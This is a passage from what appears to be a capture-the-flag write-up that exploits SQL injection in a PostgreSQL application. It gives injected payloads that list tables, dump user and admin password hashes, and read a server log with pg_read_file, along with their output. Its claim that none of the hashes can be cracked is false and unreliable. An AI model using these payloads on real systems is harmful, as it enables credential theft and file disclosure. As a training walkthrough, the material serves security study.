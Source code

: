 Then check the tables `''; SELECT tablename FROM pg_tables;`
![](images/Pasted%20image%2020250310125006.png)

Let's get the password hashes: `''; (SELECT password FROM "Users") `
```
|   |   |   |   |   |
|---|---|---|---|---|
|d9b9ecbf29db8054b21f303072b37c4e|||||
|1eace53df87b9a15a37fdc11da2d298d|||||
|0cebd84e066fd988e89083879e88c5f9|||||
|63a9f0ea7bb98050796b649e85481845|
```
And there is admin hash `''; (SELECT password FROM "Admins") `
```
e10adc3949ba59abbe56e057f20f883e
```
Not a single hash can be brute-forced.
Let's try to look at the database logs. To do this, first determine the version:
`''; SELECT version();`
```
PostgreSQL 15.10 (Debian 15.10-0+deb12u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit
```

Now you can try to read the log:
`''; SELECT pg_read_file('/var/log/postgresql/postgresql-15-main.log', 0,
10000000);`
In this log file, there is nothing interesting here.
